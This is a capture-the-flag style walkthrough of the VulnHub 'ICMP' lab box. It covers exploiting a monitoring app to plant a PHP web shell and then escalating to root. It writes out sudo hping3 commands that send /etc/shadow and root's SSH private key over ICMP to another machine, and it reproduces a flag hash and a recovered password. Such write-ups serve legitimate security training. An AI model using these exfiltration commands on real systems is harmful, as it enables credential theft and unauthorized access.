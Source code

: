 ```yaml
---
title: ICMP
categories: [Proving Grounds, Play]
tags: [Public Exploit, hping3, PrivEsc]
image:
  path: https://www.vulnhub.com/media/img/entry/icmp-00.png
  width: "1200"
  height: "630"
  alt:  ICMP Machine 🖥️
---
```



## **Description ⤵️**

>
💡 [ICMP](https://www.vulnhub.com/entry/icmp-1,633/) ⤵️
<br>
Easy box, monitor resources
<br>
This works better with VirtualBox rather than VMware
{: .prompt-info }

### Let’s find the IP Address first >>

![171-1.png](/Vulnhub-Files/img/ICMP/171-1.png)

```bash
IP : 10.0.2.24
```
{: .nolineno}

## Port Scan Results ➡️

![171-2.png](/Vulnhub-Files/img/ICMP/171-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
```
{: .nolineno}

---

## Web Enumeration ⤵️

![171-3.png](/Vulnhub-Files/img/ICMP/171-3.png)

Lets check an exploit for this Monitoring System →

![171-4.png](/Vulnhub-Files/img/ICMP/171-4.png)

Now I executed the shell →

![171-5.png](/Vulnhub-Files/img/ICMP/171-5.png)

Lets load the reverse shell url →

URL → [http://10.0.2.24/mon/assets/data/usrimg/she_ll.php](https://10.0.2.24/mon/assets/data/usrimg/she_ll.php)

![171-6.png](/Vulnhub-Files/img/ICMP/171-6.png)

Response →

![171-7.png](/Vulnhub-Files/img/ICMP/171-7.png)

---

## SHELL ➡️

![171-8.png](/Vulnhub-Files/img/ICMP/171-8.png)

```bash
local.txt → c9db6c88939a2ae091c431a45fb1e59c
```
{: .nolineno}

![171-9.png](/Vulnhub-Files/img/ICMP/171-9.png)

![171-10.png](/Vulnhub-Files/img/ICMP/171-10.png)

![171-11.png](/Vulnhub-Files/img/ICMP/171-11.png)

So the crypt file is basically inside the devel file →

![171-12.png](/Vulnhub-Files/img/ICMP/171-12.png)

Now I got in with this password → `BUHNIJMONIBUVCYTTYVGBUHJNI`

![171-13.png](/Vulnhub-Files/img/ICMP/171-13.png)

Lets see how fox can leads me to root !

![171-14.png](/Vulnhub-Files/img/ICMP/171-14.png)

Lets use this ⤵️

![Untitled](/Vulnhub-Files/img/ICMP/Untitled.png)

It allowed a command to run as root. Since we must use ICMP mode, we cannot spawn a shell. However, we can transfer files to a different machine. We could try sending the shadow file or try to send an SSH private key.

Reference: [https://iphelix.medium.com/hping-tips-and-tricks-85698751179f](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)

For this, we require to set up hping3 in listen mode in the receiver machine, whereas from the target machine, we have to send the file.

IP of the receiver machine: 10.0.2.15

IP of the target machine: 10.0.2.60

On the receiver machine, we have to do the following.

```
{: .nolineno}
sudo hping3 -1 10.0.2.24 -9 signature -I eth0 --safe
```
{: .nolineno}

On the target machine, we should do as follows to get the shadow file.

```
{: .nolineno}
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /etc/shadow -d 2000 -c 1
```
{: .nolineno}

This gave me output in my receiving machine. In the command above, -c 1 is the number of times the ping operation is performed. Since we have data size of 2000, we just need a single ping. However, you can completely change the value or exclude it to manually exit later.

![https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png](https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png)

I tried bruteforcing the password but had no luck. Next, I tried to get the private key using the same method.

```
{: .nolineno}
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /root/.ssh/id_rsa -d 2000
```
{: .nolineno}

I got the response like the following. Thus, I decided to do the same in the two different SSH instances of the target machine.

![https://nepcodex.com/wp-content/uploads/2021/07/image-134.png](https://nepcodex.com/wp-content/uploads/2021/07/image-134.png)

On the target machines,

```
{: .nolineno}
# SSH instance 1
sudo hping3 --icmp 127.0.0.1 --listen signature --safe
```
{: .nolineno}

```
{: .nolineno}
# SSH instance 2
sudo hping3 --icmp 127.0.0.1 --sign signature --file /root/.ssh/id_rsa -d 4000 -c 2
```
{: .nolineno}

![https://nepcodex.com/wp-content/uploads/2021/07/image-135.png](https://nepcodex.com/wp-content/uploads/2021/07/image-135.png)

Finally, I got the proper response. Next, I copied it to a file on my local machine.

```
{: .nolineno}
vi id_rsa # Copy the key
chmod 600 id_rsa # This will restrict the private key permissions
```
{: .nolineno}

Lastly, I could log in to the system.

```
{: .nolineno}
ssh root@10.0.2.24 -i id_rsa
```
{: .nolineno}

![https://nepcodex.com/wp-content/uploads/2021/07/image-136.png](https://nepcodex.com/wp-content/uploads/2021/07/image-136.png)

---

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }